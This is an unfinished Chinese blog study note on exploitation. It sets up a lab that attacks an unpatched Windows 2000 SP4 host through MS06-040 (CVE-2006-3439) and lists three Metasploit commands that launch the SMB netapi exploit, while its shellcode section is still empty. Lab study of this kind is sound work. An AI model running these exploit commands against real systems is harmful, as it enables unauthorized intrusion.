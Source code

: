 ```yaml
---
title: 漏洞利用学习笔记-005-Metasploit制作ShellCode
description: Metasploit制作ShellCode
date: 2020-10-20 22:20:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - ShellCode
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-005-metasploit制作shellcode/)

...未完待续(Metasploit旧版本真难找)...

## 入侵Windows实验

### 实验介绍

> MS06-040，CVE-2006-3439

|  | 推荐的环境 | 备注 |
|-|-|-|
| 攻击机系统 | Kali Linux 2021.1 | |
| 目标主机系统 | Windows 2000 SP4 | |
| 补丁版本 | KB921883 | 确保目标主机未安装补丁 |
| 网络环境 | 可互相ping通 | 确保无防火墙干扰 |

### 命令行界面漏洞测试

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## 使用MetaSploit制作ShellCode

...未完待续...
